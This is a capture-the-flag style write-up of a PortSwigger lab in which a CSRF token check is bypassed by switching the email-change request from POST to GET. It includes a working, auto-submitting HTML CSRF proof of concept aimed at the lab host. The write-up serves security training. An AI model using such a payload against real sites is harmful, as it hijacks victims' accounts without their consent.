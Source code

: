 ```yaml
---
author: Nithissh S
pubDatetime: 2024-10-02T15:22:00Z
modDatetime: 2024-10-02T09:12:47.400Z
title: CSRF where token validation depends on request method
slug: csrf-portswigger-lab-1
featured: false
draft: false
tags:
  - BSCP
  - CSRF
description:
  This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests. To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address. You can log in to your own account using the following credentials `wiener:peter`     
---
```


## Objective 

This lab's email change functionality is vulnerable to CSRF. It attempts to block CSRF attacks, but only applies defenses to certain types of requests.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: `wiener:peter` 

## Solution 

Once after login with the credentials provided `wiener:peter` and we have a functionality to update the email 

![](../../assets/images/bscp/csrf/csrf-1.png) 

Intercepted the request of update email in burp, As a result we can see that there is a `302` redirect 

![](../../assets/images/bscp/csrf/csrf-2.png) 

Now, I removed the values of `csrf` parameter in the `POST` body and sent the request.. As you see where we faced an error here called `"Missing parameter 'csrf'"` 

![](../../assets/images/bscp/csrf/csrf-3.png) 

Changed the request method from `POST` to `GET` bypassed and we can able to update the email without any CSRF token out there 

![](../../assets/images/bscp/csrf/csrf-4.png)

Awesome, we will generate CSRF POC using engagement tools from burpsuite and here is how it looks 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a3b0057035328af808c7bd000e50052.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="n&#64;test&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

In the exploit server, we will paste the above HTML code as a body and click on `store` and then `deliver exploit to victim` will solve the lab 

![](../../assets/images/bscp/csrf/csrf-5.png)